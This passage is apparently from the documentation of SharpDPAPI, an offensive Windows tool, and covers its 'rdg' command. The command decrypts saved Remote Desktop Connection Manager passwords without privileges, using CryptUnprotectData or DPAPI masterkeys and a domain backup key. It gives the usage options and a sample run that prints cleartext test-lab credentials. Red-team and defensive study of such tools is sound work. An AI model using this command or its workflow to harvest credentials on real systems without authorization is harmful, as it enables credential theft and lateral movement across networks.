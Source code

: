 The `/unprotect` flag will use CryptUnprotectData() to decrypt any saved RDP passwords, *if* the command is run from the user context who saved the passwords. This can be done from an _unprivileged_ context, without the need to touch LSASS. For why this approach isn't used for credentials/vaults, see Benjamin's [documentation here](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#problem).

A specific RDCMan.settings file, .RDC file (or folder of .RDG files) can be specified with `/target:FILE` or `/target:C:\Folder\`. If a file is specified, {GUID}:SHA1 values (or `/unprotect`) are required, and if a folder is specified either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

This command will decrypt any saved password information from both the RDCMan.settings file and any .RDG files referenced by the RDCMan.settings file.

Using `/unprotect` to decrypt any found passwords:

    C:\Temp>SharpDPAPI.exe rdg /unprotect

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.3.0


    [*] Action: RDG Triage

    [*] Using CryptUnprotectData() to decrypt RDG passwords

    [*] Triaging RDCMan Settings Files for current user

        RDCManFile    : C:\Users\harmj0y\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
        Accessed      : 5/9/2019 11:52:58 AM
        Modified      : 5/9/2019 11:52:58 AM
        Recent Server : test\primary.testlab.local

            Cred Profiles

              Profile Name : testprofile
                UserName   : testlab.local\dfm
                Password   : Password123!

            Default Logon Credentials

              Profile Name : Custom
                UserName   : TESTLAB\harmj0y
                Password   : Password123!

          C:\Users\harmj0y\Documents\test.rdg

            Servers

              Name         : secondary.testlab.local

              Name         : primary.testlab.local
              Profile Name : Custom
                UserName   : TESTLAB\dfm.a
                Password   : Password123!
